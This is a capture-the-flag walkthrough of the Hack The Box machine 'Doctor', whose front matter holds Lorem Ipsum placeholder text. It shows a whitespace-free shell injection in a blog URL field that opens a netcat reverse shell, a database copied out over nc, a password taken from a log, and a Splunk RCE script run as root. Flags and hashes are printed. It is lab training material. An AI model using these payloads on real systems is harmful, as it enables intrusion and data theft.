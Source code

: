 ```yaml
---
title: Doctor - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-11-04
image: images/doctor_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/doctor_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:/git/htb/doctor# nmap -Pn -n -sC -sV 10.10.10.209
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 12:51 CEST
    Nmap scan report for 10.10.10.209
    Host is up (0.035s latency).
    Not shown: 997 filtered ports
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Doctor
    8089/tcp open  ssl/http Splunkd httpd
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Splunkd
    |_http-title: splunkd
    | ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
    | Not valid before: 2020-09-06T15:57:27
    |_Not valid after:  2023-09-06T15:57:27
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
    + http://10.10.10.209/index.html (CODE:200|SIZE:19848)

    NIKTO:
    -


2. Visiting the http://10.10.10.209 we find a domain name, doctors.htb - add it to /etc/hosts. Three potential users, Jade Guzman,
   Hannah Ford, James Wilson, and blog posts by Admin. We find nothing more of interest so lets move ahead to http://doctors.htb.

   We are greeted with a login promtp. Trying different email addresses it seems like the error message is the same no matter what.
   Sign up to the site and create an account. Once logged in we are able to create a post, and update our profile.

   Our first post is at http://doctors.htb/post/2, notice that the first post got number 2 in the url. Visit http://doctors.htb/post/1
   and we find a post by user Admin.

      admin 2020-09-18
      Doctor blog

      A free blog to share medical knowledge. Be kind!

   We can view all post by user Admin on http://doctors.htb/user/admin, however he's only done one.


3. From the post content field we have code execution through a URL validation function. All URL's posted in the content field
   will be executed to see if valid, giving us some kind of Code Execution.

   Content: http://10.10.14.9:4488

   root@nidus:/git/htb/doctor# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 42406
    GET / HTTP/1.1
    Host: 10.10.14.9:4488
    User-Agent: curl/7.68.0
    Accept: */*

   Trying to setup reverse payload through php etc doesn't do anything, so I think we need to do the RCE in the URL.
   After a while I found the post from 'Shift or Die' about Shell Injection without withspaces and played around with that.
   Reading the forums + tweaking that one line eventually gave me a reverse shell.

   Content: http://10.10.14.9/$(nc.traditional$IFS'10.10.14.9'$IFS'4488'$IFS-e/bin/sh)

   root@nidus:/git/htb/doctor# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 42612
    whoami
      web


3. Upgrade the shell ( python3 -c 'import pty;pty.spawn("/bin/bash")'; )
   Once we have a foothold, the first dir we land in has a script called blog.sh, we see the script pointing towards a database file
   and we get a secret key(?).

   web@doctor:~$ cat blog.sh
    #!/bin/bash
    SECRET_KEY=1234 SQLALCHEMY_DATABASE_URI=sqlite://///home/web/blog/flaskblog/site.db /usr/bin/python3 /home/web/blog/run.py

   Transfer the database file to your local computer and investigate it.
    root@nidus:/git/htb/doctor# nc -lp 1234 > site.db
    web@doctor:~/blog/flaskblog$ nc -w 3 10.10.14.9 1234 < site.db

    root@nidus:/git/htb/doctor# sqlite3 site.db
      SQLite version 3.33.0 2020-08-14 13:23:32
      Enter ".help" for usage hints.
      sqlite> .tables
        post  user
      sqlite> .schema user
        CREATE TABLE user (
        	id INTEGER NOT NULL,
        	username VARCHAR(20) NOT NULL,
        	email VARCHAR(120) NOT NULL,
        	image_file VARCHAR(20) NOT NULL,
        	password VARCHAR(60) NOT NULL,
        	PRIMARY KEY (id),
        	UNIQUE (username),
        	UNIQUE (email)
        );
      sqlite> .header ON
      sqlite> select * from user;
        id|username|email|image_file|password
        1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
        2|p3|p3@p3.se|default.gif|$2b$12$foJvOG4jKtMmHjJ6n6YU7unB2zQQnIDlYqHkvvttNKsafJyFn/9DK

    The hashes for me are unknown, and using Kali's 'hash-identifier' gives nothing. Crackstation are unable to crack the hashes, so
    this might be a rabbit hole.


4. Enumerate the logs! As the box image suggests the logs should be a part of this box. Looking through /var/log/apache2 we find
   backup sticking out like a sore thumb. Grep it for password and we got a hit!

    web@doctor:/var/log/apache2$ cat backup | grep password
      10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"


5. Change to user Shaun and grab user.txt

    web@doctor:/var/log/apache2$ su shaun
    Password: Guitar123

    shaun@doctor:/var/log/apache2$
    shaun@doctor:/var/log/apache2$ cat ~/user.txt
      9ebedf116da41ba52906a5ab9ca5d8f8


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking at the running processes we see that splunkd is running as root on port 8089.

root        1129  0.2  2.2 280284 91684 ?        Sl   Sep27   2:58 splunkd -p 8089 start

Googling around for Splunk exploits I came across a script called PySplunkWhisperer2_remote.py, that can be used for RCE. As Splunk
is running as root, in our case, we can probably use this RCE to gain a root shell.


2. The script syntaxes and how to use them, especially payload, was difficult for me to graps. After some further googling I found
a page from eapolsniper, explaning a lot of different ways on how to use this exploit. With this new found knowledge;

Setup a local nc listener.

Exploit:
root@nidus:/git/htb/doctor# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh 10.10.14.9 4488" --lhost 10.10.14.9
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpre8z_d99.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.9:8181/
10.10.10.209 - - [05/Nov/2020 12:13:19] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

root@nidus:/git/htb/doctor# nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 56250
whoami
root
cat /root/root.txt
45f20a790d86b9e8334d447f9e878605


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Shell Injection - nc.traditional
  https://shiftordie.de/blog/2011/12/23/shell-injection-without-whitespace/

SQLite3 CLI:
  https://sqlite.org/cli.html

Splunk Exploit:
  https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py
  https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
